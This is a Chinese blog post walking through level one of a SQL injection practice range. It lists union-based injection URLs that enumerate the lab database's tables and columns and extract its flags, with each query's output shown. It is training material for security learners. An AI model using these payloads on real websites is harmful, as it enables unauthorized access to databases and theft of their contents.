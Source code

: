```yaml
---
date: "2020-12-09T00:00:00Z"
description: sql注入练习 报错注入
keywords: SQL注入
tags:
- 安全
- SQL注入
title: 掌控安全 SQL 注入靶场练习 Pass1 - 报错注入
---
```


# 掌控安全 SQL 注入靶场练习 Pass1 - 报错注入

靶场地址:  http://vulhub.example.com:81/Pass-01/index.php?id=1

> **注意**: 错误注入 不一定是会返回错误信息。 也指不正常显示结果， 例如此题的查询为空。

## 0x01 准备工具


辅助工具 `google extension` : hackbar

1. 帮助快速构造语句
2. 显示原始字符，免去 urlcode 烦恼


## 0x02 开始

```sql
-- 1. 查询数据库名
http://vulhub.example.com:81/Pass-01/index.php?id=1 and 1=2 union select 1,2, database()
-- error


-- 2. 查询所以表名
http://vulhub.example.com:81/Pass-01/index.php?id=1 and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
-- error_flag, user


-- 3. 查询当前库所有列名
http://vulhub.example.com:81/Pass-01/index.php?id=1 and 1=2 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='error_flag'
-- id, flag

-- 4.0 查询 flag 数量
http://vulhub.example.com:81/Pass-01/index.php?id=1 and 1=2 union select 1,2,count(*) from error_flag
-- 4


-- 4.1 查询 flag
http://vulhub.example.com:81/Pass-01/index.php?id=1 and 1=2 union select 1,id,flag from error_flag
-- zKaQ-Nf

-- 4.2 查询所有flag
http://vulhub.example.com:81/Pass-01/index.php?id=1 and 1=2 union select 1,2,group_concat(flag) from error_flag
-- zKaQ-Nf,zKaQ-BJY,zKaQ-XiaoFang,zKaq-98K

```
